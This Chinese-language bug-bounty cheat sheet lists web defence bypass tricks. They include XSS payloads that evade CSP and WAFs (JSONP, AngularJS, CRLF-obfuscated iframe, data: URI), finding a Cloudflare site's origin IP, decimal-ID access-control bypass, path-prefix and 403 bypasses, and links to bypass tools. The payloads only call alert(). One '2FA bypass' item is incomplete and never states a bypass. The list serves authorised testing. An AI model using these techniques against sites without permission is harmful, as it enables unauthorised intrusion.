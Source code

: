 # Bypass BugBountyTips

### Bypasses:

1.[@fasthm00](https://twitter.com/fasthm00/status/1083371791760818176)：Bypass 内容安全策略(CSP)

```js
#JSONP:
<script src="https://trustedsite/jsonp?callback=payload">

#AngularJS
<script src="https://trustedsite/angularjs/1.1.3/angularjs.min.js">
<div ng-app ng-csp id=p ng-click=.view.alert(1)>
```

2.[@neeraj_sonaniya](https://twitter.com/neeraj_sonaniya/status/1089235277250387969)：遇到AWS WAF时可以尝试添加"<!"()不带引号,然后绕过该WAF：例如：

```js
<!<script>alert(1)</script>
```

3.如果遇到目前网站使用的是Cloudflare，挖掘其DNS记录并搜索真实IP地址，直接对IP地址进行攻击，WAF将不会生效。

4.@LooseSecurity:这是我混淆的Payload。它绕过了许多WAF，包括CloudFlare iirc，具有javascript URI Payload的iFrame。使用换行符[CRLF]将其混淆：

```js
<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aalert(0)">
```

5.@ameenmaali:使用数字ID测试授权/访问控制时，尝试使用小数/浮点数，然后四舍五入到要访问的数字。例如：
管理员角色ID为1
尝试将您的ID设置为0.9，它可能会绕过身份验证检查，因为系统将在身份验证检查后上舍入.

6.[@hakluke](https://twitter.com/hakluke/status/1183314554874318849)：在做Web渗透测试时，我经常会检查一些错误，这些错误通常会被遗漏。这是一个例子：

我检查是否使用与已删除帐户相同的用户名进行注册可以让我访问其旧数据。

7.[@404death](https://twitter.com/404death/status/1191222237782659072)：CSP Bypass, script-src 'self' data:

```js
<script ?/src="data:+,\u0061lert%281%29">/</script>
```

8.是否要绕过文件扩展名限制？

请尝试在filename参数上使用HTTP参数污染。

![](images/bypass-file-image.png)


9.有时您会找到那些转发到登录页面的PATH，但看不到其中的内容。 （例如: /path/to/secret --> Google login）

采取所有这些PATH，在PATH之前加上/public/作为：/public/path/to/secret，可以访问Jenkins实例。

10.[@HackerHumble](https://twitter.com/HackerHumble/status/1274259490322313219)：2 FA Bypass:

* 1.网站正在使用适用于2A的Google身份验证器。
* 2.有一个端点，可以为您提供QR码/身份验证码，以添加到您的Google Authenticator应用中。
* 3.设置完成后，用户可以使用Google应用执行2FA，并在下次登录frok。

11.403 Bypass Tips：

1.[403Bypass的一些经验技巧](https://github.com/KathanP19/HowToHunt/blob/master/Status_Code_Bypass/403Bypass.md)

2.[403bypasser Shell脚本一](https://github.com/yunemse48/403bypasser)

3.[403bypasser Shell脚本二](https://github.com/iamj0ker/bypass-403)

4.[403Bypass BurpSuite插件](https://github.com/sting8k/BurpSuite_403Bypasser)


